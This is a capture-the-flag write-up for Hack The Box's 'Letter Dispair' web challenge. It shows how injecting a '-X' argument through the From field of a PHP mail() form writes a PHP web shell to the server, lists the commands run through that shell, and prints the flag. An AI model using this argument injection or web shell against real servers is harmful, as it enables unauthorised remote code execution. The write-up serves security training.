




# Writeup "Letter Dispair"

## Quick Info

<table>
	<tr><td><b>site</b></td><td>Hack the box</td></tr>
	<tr><td><b>url</b></td><td>https://app.hackthebox.com/challenges/letter-dispair</td></tr>
	<tr><td><b>discussion</b></td><td>https://forum.hackthebox.com/t/official-letter-dispair-discussion</td></tr>
	<tr><td><b>type</b></td><td>challenge/web</td></tr>
	<tr><td><b>difficulty&nbsp;&nbsp;&nbsp;</b></td><td>easy</td></tr>
	<tr><td><b>startdate</b></td><td>2022-07-31</td></tr>
	<tr><td><b>enddate</b></td><td>2022-08-03</td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   
</p>

`mailer.zip` contains a copy of `mailer.php`, which allows us to analyse the source code.

A quick Google search tells us that PHP's `mail()`[^1] function allows remote code execution if the fifth parameter can be influenced by the user[^2]. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following an article describing how to exploit the vulnerability[^3], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

```
&lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

```
&lt;hr /&gt;
&lt;form action=&quot;rce.php&quot; method=&quot;get&quot;&gt;
  &lt;input type=&quot;text&quot; 
    id=&quot;cmd&quot; 
    name=&quot;cmd&quot; 
    value=&#039;&lt;?php print($_GET[&quot;cmd&quot;]); ?&gt;&#039; 
    autofocus 
    onfocus=&quot;var temp_value=this.value; 
      this.value=&#039;&#039;; 
      this.value=temp_value&quot; /&gt;
&lt;/form&gt;
&lt;hr /&gt;
&lt;pre&gt;
  &lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
&lt;/pre&gt;
&lt;hr /&gt;
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

```
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

### Sources

[^1]: https://www.php.net/manual/de/function.mail.php
[^2]: https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
[^3]: https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
